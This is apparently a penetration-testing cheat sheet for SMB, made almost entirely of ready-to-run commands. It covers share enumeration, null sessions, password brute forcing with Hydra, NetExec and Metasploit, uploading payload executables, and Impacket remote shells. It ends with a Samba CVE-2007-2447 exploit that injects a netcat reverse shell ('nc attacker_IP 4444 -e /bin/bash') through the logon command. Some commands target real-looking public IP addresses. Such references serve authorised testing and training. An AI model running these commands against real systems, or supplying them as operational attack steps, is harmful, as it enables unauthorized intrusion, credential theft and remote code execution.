

<Callout type="info" title="Concept Overview">
**Server Message Block (SMB)** is a protocol used for sharing files, printers, and communication between nodes on a network. Misconfigurations can lead to data exposure, credential theft, and remote code execution.

**MITRE ATT&CK Mappings:**
* [T1135 Network Share Discovery](https://attack.mitre.org/techniques/T1135/)
* [T1077 Windows Admin Shares](https://attack.mitre.org/techniques/T1077/)
* [T1110 Brute Force](https://attack.mitre.org/techniques/T1110/)
</Callout>




---

## Port Reference

<Callout type="info" title="SMB Protocol Ports">
* **TCP 445, 139, 135:** Used for SMB direct communication and RPC.
* **UDP 138, 137:** Used for NetBIOS Datagram and Name Service.
</Callout>

---

## Nmap Scanning

<AccordionGroup>
  <Accordion title="Nmap NSE Scripts for SMB">
    Use Nmap to enumerate shares, discover OS versions, and check for known vulnerabilities (like EternalBlue).
    ```bash
    # Run all enumeration and vulnerability scripts
    nmap --script=smb-enum*,smb-vuln* 10.10.10.102 -p 139,445 -Pn -n --disable-arp-ping

    # Specific script scanning
    nmap -p 445 --script smb-enum-shares x.x.x.x      # Enumerates SMB shares
    nmap -p 445 --script smb-os-discovery x.x.x.x     # OS discovery
    nmap -p 445 --script smb-brute x.x.x.x            # Password brute force
    nmap -p 445 --script smb-system-info x.x.x.x      # Collects system info
    nmap -p 445 --script smb-vuln-* x.x.x.x           # Identifies known exploits
    ```
  </Accordion>
</AccordionGroup>

---

## SMB Enumeration Tools

<Tabs>
  <Tab title="smbclient & smbmap">
    Interact with SMB shares manually or enumerate permissions.
    
    <AccordionGroup>
      <Accordion title="SMBClient Commands">
        ```bash
        # List shares (Null session)
        smbclient -N -L //172.20.10.1

        # List shares with credentials
        smbclient -L //49.231.219.113 -U "username" --password "" -m SMB2

        # Login to a specific share
        smbclient //49.231.219.113/Micros -U "username" --password "" -m SMB2

        # Upload payload to share
        smbclient //49.231.219.113/Micros -U "username" --password "" -c 'put malware.exe' -m SMB2
        ```
      </Accordion>
      <Accordion title="SMBMap Commands">
        ```bash
        # List shares and check access rights
        smbmap -H 172.20.10.1
        smbmap -H 172.20.10.1 -u "user" -p "pass"

        # Execute commands, download, or upload
        smbmap -H 172.20.10.1 -u "user" -p "pass" -x 'ipconfig'
        smbmap -H 172.20.10.1 -u "user" -p "pass" --download 'C$\flag.txt'
        smbmap -H 172.20.10.1 -u "user" -p "pass" --upload /home/adolf/payload.exe 'C$\smd'
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>

  <Tab title="enum4linux & NetBIOS">
    Tools for large-scale enumeration and NetBIOS discovery.
    <AccordionGroup>
      <Accordion title="Enumeration Commands">
        ```bash
        # Enum4Linux (All enumeration)
        enum4linux -a 172.20.10.1 | tee enum4linux.log
        enum4linux -a -u "user" -p "pass" 172.20.10.1

        # NetBIOS lookup
        nmblookup -A 49.231.219.113

        # Network scan for NetBIOS
        nbtscan -r 172.20.10.0/24/

        # Smbeagle (Fast SMB scanner)
        smbeagle -c results.csv -n 192.168.1.0/24 -u ksmith -p Password123 -q
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>

  <Tab title="rpcclient (Null Sessions)">
    Connect via RPC to enumerate users, groups, and system info (often works with null credentials).
    <AccordionGroup>
      <Accordion title="rpcclient Commands">
        ```bash
        # Null session connection
        rpcclient -U "" -N 172.20.10.1
        rpcclient -U "" --password "" 49.231.219.113
        ```
        
        **Commands inside `rpcclient`:**
        ```text
        > enumdomusers        # Enumerate domain users
        > enumdomgroups       # Enumerate domain groups
        > srvinfo             # Windows version
        > enumalsgroups domain # Enumerate alias groups
        > lsaenumsid          # Enumerate SIDs
        > lookupnames admin   # Lookup SID by name
        > lookupsids S-1-5... # Lookup name by SID
        > queryuser 0x1f4     # Query user by RID
        > getdompwinfo        # Domain password info
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>
</Tabs>

---

## Brute Force & Password Spraying

<Callout type="danger" title="SMB Brute Force Tools">
Attempting to guess SMB credentials. Be careful with account lockouts.
</Callout>

<Tabs>
  <Tab title="NetExec / CME">
    ```bash
    # NetExec (Recommended)
    nxc smb 172.20.10.1 -u 'user' -p 'pass' --shares
    nxc smb 94.182.182.2 -u users.txt -p pass.txt --continue-on-success

    # CrackMapExec (Legacy)
    crackmapexec smb 172.20.10.1 -u ' ' -p ' ' --share IPC$
    ```
  </Tab>
  <Tab title="Ncrack & Hydra">
    ```bash
    # Ncrack
    ncrack -T 5 172.20.10.1 -p smb -v -u <Username> -P /usr/share/wordlists/rockyou.txt

    # Hydra
    hydra -t 4 -l admin -P pass.txt 172.20.10.1 smb
    ```
  </Tab>
  <Tab title="Metasploit">
    ```ruby
    msfconsole -q
    msf6 > use auxiliary/scanner/smb/smb_login
    msf6 > set RHOSTS x.x.x.x
    msf6 > set USER_FILE users.txt
    msf6 > set PASS_FILE pass.txt
    msf6 > set THREADS 10
    msf6 > exploit
    ```
  </Tab>
</Tabs>

---

## Mounting Shares & Impacket

<AccordionGroup>
  <Accordion title="Mounting SMB Shares on Linux">
    Mount a remote share directly to your Linux filesystem for easier browsing.
    ```bash
    # Standard mount
    mount -t cifs "//172.20.10.1/share/" /mnt/wins

    # Mount with specific version (SMBv1) and root credentials
    mount -t cifs "//172.20.10.1/share/" /mnt/wins -o vers=1.0,user=root,uid=0,gid=0
    ```
  </Accordion>
  <Accordion title="Impacket Tools">
    Python tools for advanced SMB exploitation and lateral movement.
    ```bash
    # Get a semi-interactive shell via SMB (requires hashes or passwords)
    impacket-smbexec user:pass@10.10.10.10
    impacket-smbexec -hashes :aad3b435b51404eeaad3b435b51404ee:NT_HASH user@10.10.10.10

    # Execute commands remotely
    impacket-wmiexec user:pass@10.10.10.10
    ```
  </Accordion>
</AccordionGroup>

---

## Exploitation: Samba RCE (CVE-2007-2447)

<Callout type="danger" title="Samba username map script RCE">
Older versions of Samba (3.0.20rc1 - 3.0.25rc2) allow remote command execution through a metacharacter injection vulnerability when using the `username map script` option. By sending a malformed username containing shell commands, an attacker can execute arbitrary code.
</Callout>

<Steps>
  <Step title="Step 1: Connect to a share">
    ```bash
    smbclient -U "username%password" //<IP>/share_name
    ```
  </Step>
  <Step title="Step 2: Trigger the RCE with a logon command">
    Inside the `smb:>` prompt, trigger the RCE with a logon command.
    ```bash
    smb> logon "/=`nc attacker_IP 4444 -e /bin/bash`"
    smb> logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
    ```
    <Callout type="warning">
    *Note: Don't forget to set up a Netcat listener (`nc -lvnp 4444`) before executing the logon command.*
    </Callout>
  </Step>
</Steps>
